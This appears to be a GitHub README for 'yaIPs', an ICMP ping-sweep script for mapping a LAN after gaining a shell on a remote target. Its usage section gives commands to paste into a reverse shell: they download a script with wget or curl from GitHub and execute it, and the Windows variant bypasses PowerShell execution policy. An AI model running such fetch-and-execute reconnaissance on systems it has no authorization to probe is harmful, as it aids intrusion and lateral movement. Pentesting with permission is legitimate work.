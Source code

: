 # yaIPs - Yet another ipsweeping script 
Just like any other IPSweep script, yaIPs.sh and yaIPs.ps1 sends ICMP packets to the entire current LAN. As soon as 
I had a shell to the remote target, I wanted to identify all reachable IPv4 addresses as quick as 
possible. It's just easiest if I process the current address right away instead of manually disassembling 
it and specifying it as an argument. Of course, sometimes this is also needed, so I can simply specify 
the desired network potion as the first parameter. 

# Usage
- Paste this into your reverse shell:

`Linux`:
```bash
wget https://raw.githubusercontent.com/fhAnso/yaIPs/main/yaIPs.sh && bash yaIPs.sh
```
- or:
```bash
curl https://raw.githubusercontent.com/fhAnso/yaIPs/main/yaIPs.sh && bash yaIPs.sh
```
`Windows`:
```powershell
curl https://raw.githubusercontent.com/fhAnso/yaIPs/main/yaIPs.ps1 > yaIPs.ps1 && powershell -executionpolicy bypass -File .\yaIPs.ps1
```

# LICENSE

These scripts are published under the [MIT](https://github.com/fhAnso/yaIPs/blob/main/LICENSE) license.
